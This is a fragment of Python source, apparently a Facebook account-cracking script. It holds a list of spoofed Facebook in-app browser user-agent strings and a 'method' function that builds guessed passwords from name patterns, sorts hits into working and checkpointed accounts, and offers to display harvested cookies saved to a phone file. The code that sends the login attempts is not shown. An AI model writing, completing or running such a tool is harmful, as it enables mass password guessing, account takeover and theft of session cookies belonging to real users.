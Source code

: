 mozilla/5.0 (linux; android 10; eve-lx9n build/huaweieve-lx9n; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/88.0.4324.93 mobile safari/537.36 [fb_iab/orca-android;fbav/370.0.0.14.108;]
mozilla/5.0 (linux; android 12; 4188s build/sp1a.210812.016; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/109.0.5414.118 mobile safari/537.36 [fb_iab/orca-android;fbav/393.0.0.18.92;]
mozilla/5.0 (linux; android 11; armor 12 5g build/rp1a.200720.011; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/109.0.5414.85 mobile safari/537.36 [fb_iab/orca-android;fbav/393.0.0.18.92;]
mozilla/5.0 (linux; android 12; 22041216c build/sp1a.210812.016; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/109.0.5414.85 mobile safari/537.36 [fb_iab/orca-android;fbav/393.0.0.18.92;]
mozilla/5.0 (linux; android 10; cdy-nx9b build/huaweicdy-n29b; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/88.0.4324.93 mobile safari/537.36 [fb_iab/orca-android;fbav/391.0.0.0.302;]
mozilla/5.0 (linux; android 10; sts570 build/qp1a.190711.020; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/88.0.4324.181 mobile safari/537.36 [fb_iab/orca-android;fbav/389.1.0.23.214;]
mozilla/5.0 (linux; android 11; tecno kg6p build/rp1a.200720.011; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/109.0.5414.85 mobile safari/537.36 [fb_iab/orca-android;fbav/393.0.0.18.92;]
"""
####@-----filem-----@####


def method():
    okacc = []
    cpacc = []
    totalpass = []
    os.system("clear")
    print(logo)
    if 'o':      
        lp = input(f'{oo("?")}total password? : ')
        if lp.isnumeric():
            ex = 'firstlast first123 last123'
            print(f'{oo("+")}{ex} (etc)')
            for x in range(int(lp)):
                totalpass.append(input(f'{oo(x+1)}password : '))
            pass
        else:
            print(f"{oo('!')}numeric only")
            exit()
    print(f'\n'+oo("1")+'method 1 (updated)\n'+oo("2")+'method 2 (updated)')
    m=input(f"{oo('!')}input : ") 
    print('\n'+oo("?")+'do you want to show cp ids?(y/n)')
    cpok=input(f"{oo('!')}input : ")
    print('\n'+oo("?")+'do you want to show cookies?(y/n)')
    c=input(f"{oo('!')}input : ")
    apps='y'
    os.system("clear")
    print(logo) 
    print('\033[1;93m='*25)
    print(f'{oo("✓")}total ids : \033[1;92m'+str(len(accounts)))
    print(f"{oo('-')}wait as you can :)")
    print(f"{oo('•')}/sdcard/hannan-ok.txt")
    print('\033[1;93m='*25)
    print()
    